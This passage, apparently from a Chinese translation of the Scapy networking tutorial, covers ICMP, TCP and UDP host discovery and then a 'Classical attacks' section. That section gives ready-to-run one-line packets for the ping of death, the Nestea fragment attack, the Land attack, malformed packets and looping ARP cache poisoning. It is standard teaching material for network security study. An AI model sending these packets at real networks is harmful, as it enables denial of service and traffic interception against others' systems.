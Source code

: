 可以用以下的命令来模拟经典的ICMP Ping：

    >>> ans,unans=sr(IP(dst="192.168.1.1-254")/ICMP())

用以下的命令可以收集存活主机的信息：

    >>> ans.summary(lambda (s,r): r.sprintf("%IP.src% is alive") )

## TCP Ping

如果ICMP　echo请求被禁止了，我们依旧可以用不同的TCP Pings，就像下面的TCP SYN Ping:

    >>> ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )

对我们的刺探有任何响应就意味着为一台存活主机，可以用以下的命令收集结果：

　　　　>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )

## UDP Ping

如果其他的都失败了，还可以使用UDP Ping，它可以让存活主机产生ICMP Port unreachable错误。你可以挑选任何极有可能关闭的端口，就像端口0：

    >>> ans,unans=sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )

同样的，使用以下命令收集结果：

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )

## Classical attacks

Malformed packets:

    >>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())

Ping of death (Muuahahah):

    >>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )

Nestea attack:

    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10))
    >>> send(IP(dst=target, id=42, frag=48)/("X"*116))
    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))

Land attack (designed for Microsoft Windows):

    >>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))

##　ARP cache poisoning

这种攻击可以通过VLAN跳跃攻击投毒ARP缓存，使得其他客户端无法加入真正的网关地址。

经典的ARP缓存投毒：　　　　

```
>>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client),
      inter=RandNum(10,40), loop=1 )
```
